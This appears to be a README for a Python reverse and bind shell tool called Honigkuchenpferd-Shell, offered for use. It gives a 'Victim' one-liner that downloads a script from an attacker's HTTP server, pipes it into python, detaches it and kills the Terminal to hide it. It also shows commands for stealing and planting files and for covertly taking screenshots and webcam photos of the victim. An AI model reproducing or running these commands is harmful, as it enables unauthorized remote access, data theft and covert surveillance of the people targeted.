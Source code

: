 ![Screenshot](picture/hacking-is-bad-mmmkay.jpg)

# Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
/bin/python3 -m http.server 8080
```
```
/bin/python3 srv.py -l 6666

OR

/bin/python3 srv.py 127.0.0.1 6666
```
## Victim
```
curl -s http://<IP>:8080/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```


## download File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] download sus_text.txt
```
## upload File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] upload sus_prog.bin
```


## ffmpeg:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```


## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
